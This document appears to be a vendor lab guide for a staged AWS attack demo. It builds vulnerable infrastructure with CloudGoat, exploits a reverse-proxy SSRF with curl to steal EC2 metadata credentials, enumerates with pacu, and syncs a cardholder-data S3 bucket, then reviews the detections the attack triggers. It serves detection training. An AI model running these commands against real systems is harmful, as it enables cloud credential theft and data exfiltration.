









.. _ec2_attack_lab:

===========================
EC2 Attack
===========================

Notes
++++++++++++++++++++++++++++++++
- SE DfAWS Console https://207753870716.uw2.portal.vectra.ai/
- AWS target account vectra-demolab (884414556547)
- AWS attacker VM should be in a different account vectra-se-dev (257321424819)

Setup AWS Profile
=================

- Login with SSO

.. code:: console

   aws sso login --profile sso-demolab

- Export AWS profile path

.. code:: console

   export AWS_PROFILE=sso-demolab 

- Verify credentials are working

.. code:: console

   aws sts get-caller-identity

Setup Cloudgoat
===============
- Run Cloudgoat config profile from home directory and set default profile name to ``sso-demolab``

.. code:: console

   ~/cloudgoat/cloudgoat.py config profile

- Modify Cloudgoat config whitlelist 

.. code:: console

   echo "`curl ifconfig.io`/32" > ~/cloudgoat/whitelist.txt

- Update Cloudgoat config file 

.. code:: console

   wget https://raw.githubusercontent.com/VectraCommunity/cloudgoat/master/scenarios/cloud_breach_s3/terraform/s3.tf -O ~/cloudgoat/scenarios/cloud_breach_s3/terraform/s3.tf

Create vulnerable infrastructure
++++++++++++++++++++++++++++++++

- Now that the tools are setup we will use Cloudgoat to setup vulnerable
  infrastructure in AWS. This will create a scenario with a misconfigured
  reverse-proxy server in EC2.

-  Run the attack scenario

.. code:: console
   
    ~/cloudgoat/cloudgoat.py create cloud_breach_s3

.. note::  **Copy the response to a text file**.  You will need the EC2 IP

Start attack
============

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

Get Role Name
+++++++++++++

-  Replace ``<ec2-ip-address>`` with the IP address from the previous
   step to get a role name. 

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. note:: **Copy the response to a text file**.  You will need the role

Get Credentials
+++++++++++++++

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. note::  **Copy response to text file**.  You will use the stolen credentials

Pacu Discovery 
++++++++++++++

-  Next we will use pacu to do discovery with the stolen credentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

Pacu Results
++++++++++++

-  Use pacu to start discovery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

-  The stolen credentials have full access to S3
-  Exit pacu by typing ``exit`` and return to attack
   
Data Exfil
++++++++++

-  Create a new aws profile with stolen credentials

.. code:: console

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen credentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file on the new profile ``cloud_breach_s3``
   (use i for insert mode then esc :wq to save and close)

.. code:: console

   vi  ~/.aws/credentials

-  Use aws cli to list buckets the stolen credentials have access to

.. code:: console
   
    aws s3 ls --profile cloud_breach_s3
   

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data

.. code:: console  
   
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3

-  Change to home directory and perfom list to verify data was
   downloaded 
   
.. code:: console 
   
    cd && ls
   

-  Remove vulnerable infrastructure

.. code:: console 

    ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3

-  Attack had been completed. Review the detections in dfaws dashboard

-  Detections visible include: 
   
   - AWS Organization Discovery- A credential was observed enumerating AWS Organization details.
   - AWS User Permissions Enumeration- Control plane APIs associated with the reconnaissance of IAM resources were invoked in a suspicious way that may be associated with a potential privilege escalation attack.
   - AWS Suspicious EC2 Enumeration- Control plane APIs associated with reconnaissance on EC2 resources were invoked in a suspicious manner. 
   - AWS S3 Enumeration- Control plane APIs associated with the reconnaissance of S3 resources were invoked in a suspicious manner.

